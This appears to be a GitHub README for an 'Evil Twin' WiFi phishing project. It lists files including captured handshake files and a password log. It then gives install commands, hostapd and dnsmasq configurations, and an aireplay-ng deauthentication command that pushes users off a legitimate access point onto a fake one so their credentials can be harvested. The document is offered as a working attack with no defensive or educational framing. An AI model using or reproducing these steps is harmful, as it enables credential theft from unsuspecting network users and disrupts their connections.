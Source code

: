 # Evil Twin Attack Project (WiFi Fishing)

This project is designed to perform an Evil Twin attack, which involves creating a fake WiFi access point to capture credentials and other sensitive information from unsuspecting users.

## Project Structure

```
index.php
password_log.txt
cap/
    Aditya-01.cap
    AirFiber-01.cap
    charli-01.cap
    iphone-01.cap
    Redmi-01.cap
    tuhin-01.cap
css/
    bootstrap.min.css
img/
    air-fiber.png
    airtel.png
    bsnl.png
    d-link.png
    jio.png
    module_table_bottom.png
    module_table_top.png
    tp-link.png
    vi.png
    wi-fi.png
    wifi-sign.png
js/
    bootstrap.bundle.min.js.js
```

## Dependencies

- PHP
- Apache or any other web server
- Aircrack-ng suite
- Hostapd
- Dnsmasq
- Kali Linux (recommended for its pre-installed network analysis tools)

## Installation and Running

1. **Install Dependencies:**
   Make sure you have PHP, Apache, Aircrack-ng, Hostapd, and Dnsmasq installed on your Kali Linux system.

   ```sh
   sudo apt update
   sudo apt install php apache2 aircrack-ng hostapd dnsmasq
   ```

2. **Clone the Repository:**

   ```sh
   git clone <repository-url>
   cd <repository-directory>
   ```

3. **Move Project Files to Web Server Directory:**

   ```sh
   sudo cp -r * /var/www/html/
   ```

4. **Set Permissions:**

   ```sh
   sudo chown -R www-data:www-data /var/www/html/
   sudo chmod -R 755 /var/www/html/
   ```

5. **Start Apache Server:**

   ```sh
   sudo systemctl start apache2
   sudo systemctl enable apache2
   ```

6. **Configure Hostapd and Dnsmasq:**
   Create and configure `hostapd.conf` and `dnsmasq.conf` files.

   **hostapd.conf:**
   ```sh
   interface=wlan0
   driver=nl80211
   ssid=FakeAP
   hw_mode=g
   channel=6
   macaddr_acl=0
   auth_algs=1
   ignore_broadcast_ssid=0
   ```

   **dnsmasq.conf:**
   ```sh
   interface=wlan0
   dhcp-range=192.168.150.2,192.168.150.30,255.255.255.0,12h
   dhcp-option=3,192.168.150.1
   dhcp-option=6,192.168.150.1
   server=8.8.8.8
   log-queries
   log-dhcp
   listen-address=127.0.0.1
   ```

7. **Start Hostapd and Dnsmasq:**

   ```sh
   sudo hostapd /etc/hostapd/hostapd.conf
   sudo dnsmasq -C /etc/dnsmasq.conf -d
   ```

8. **Run the Attack:**
   Use Aircrack-ng suite to deauthenticate users from the legitimate AP and force them to connect to the fake AP.

   ```sh
   sudo airmon-ng start wlan0
   sudo aireplay-ng --deauth 0 -a <target-AP-MAC> wlan0
   ```

9. **Access the Web Interface:**
   Open your web browser and navigate to `http://localhost/index.php` to monitor captured credentials.

## Usage

- Ensure your wireless adapter supports monitor mode.
- Use the web interface to view captured credentials and other information.

## License

This project is licensed under the MIT License.